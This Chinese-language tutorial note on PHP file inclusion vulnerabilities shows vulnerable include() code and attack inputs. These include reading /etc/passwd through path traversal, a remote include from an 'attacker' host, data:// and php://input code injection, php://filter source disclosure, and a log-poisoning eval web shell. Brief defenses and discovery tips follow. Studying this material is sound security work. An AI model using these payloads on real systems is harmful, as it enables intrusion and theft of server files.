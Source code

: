 基本条件： （1）include()等函数通过动态变量的方式引入需要包含的文件; （2）用户能够控制该动态变量。

# 概述
- 原因 
```
<?php
	include($_GET[file])
?>
# 用户可以通过控制参数 来执行文件
```
# 分类
- 本地
```
<?php
$file =$_GET['file'];
if(file_exists("/home/wwwrun/",$file))
{
include '/home/wwwrun/',$file;
}
?>
```
参数
file=../../etc/passwd
- 远程
```
<?php
	$basePath = =$_GET['path'];
	require_once $basePath;
?>
```
参数
?path=http://attacker/shell.txt
实际执行了
require_once path=http://attacker/shell.txt
# 检测和利用
条件
- 包含include 等函数
- 用户能够动态控制变量
## 伪协议 file://
本地文件协议 绝对路径
## 伪协议 data://和 php://input
```
?page=data:text/plain,<?php php 代码?>
?page=php://input
Post提交:<?php PHP代码?>

```
## php://filter 元封装器
用于数据流打开时筛选过滤应用 类似于readfile(),file(),file_get_contents()
```
php://filter/[read/write=<读/写链的筛选列表>]/resource=<要过滤的数据流>
```
例
```
?page=php://filter/read=convert.base64-encode/resource=file1.php
```
## 本地文件包含
例 1
<?php
if(isset($_GET['page'])){
include($_GET['page']);
}else{
include('show.php');
}
例 2
<?php
if(isset($_GET['page'])){
include('./action/'.$_GET['page']);
}else{
include 'show.php';
}
?>
}
例 3 PHP<5.3.4
<?php
if(isset($_GET['page'])){
include ('./action/'.$_GET['page'].'.php');
}else{
include 'show.php'
}
?>
例 4 日志文件
1. 找到日志文件存放位置
2. 日志文件插入php代码
3. 日志文件访问
<?php eval(\$_POST[1]);?> 防止变量转义
## 挖掘
include file 百度
特定的CMS include require
Web漏洞扫描 常见的web扫描仪


# 防御
## 禁止0字节(\0) 防止攻击者截断攻击 更新版本
## open_basedir 限制访问
## 避免包含动态的变量 控制变量 或者用枚举



# 伪协议
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — 安全外壳协议 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
# 文件查看下载
# 概述
文件目录不限制 查看敏感文件
1. 原因
- 存在读取文件的函数
- 读取路径检查不严格
- 输出文件内容
2. 危害
# 分类
- 读取 传入变量
添加其他路径 读取其他路径的文件
- 下载 传入变量
添加路径文件下载 查看敏感信息
# 挖掘
1. 扫描仪 awvs appscan nessus
2. 手动挖掘 连接和参数名查看